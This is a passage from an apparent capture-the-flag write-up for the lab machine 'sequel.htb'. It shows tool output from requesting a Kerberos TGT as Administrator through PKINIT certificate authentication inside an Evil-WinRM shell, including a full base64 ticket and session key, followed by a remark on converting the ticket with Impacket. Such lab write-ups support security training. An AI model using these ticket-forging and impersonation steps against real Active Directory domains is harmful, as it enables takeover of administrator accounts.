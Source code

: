 ```powershell
[*] Building AS-REQ (w/ PKINIT preauth) for: 'sequel.htb\Administrator'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      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

  ServiceName           :  krbtgt/sequel.htb
  ServiceRealm          :  SEQUEL.HTB
  UserName              :  Administrator
  UserRealm             :  SEQUEL.HTB
  StartTime             :  6/16/2023 10:36:01 AM
  EndTime               :  6/16/2023 8:36:01 PM
  RenewTill             :  6/23/2023 10:36:01 AM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable
  KeyType               :  rc4_hmac
  Base64(key)           :  wWADPC33mZiwddA+8rHNYg==

*Evil-WinRM* PS C:\programdata>
```

Success! We now have a TGT as `Administrator`. This is of course in `kirbi` format (and base64 encoded) so if we want to use it from our Kali machine, we have to convert it to `ccache`. We can use Impacket [ticketConverter.py](https://github.com/fortra/impacket/blob/master/examples/ticketConverter.py) to do so.

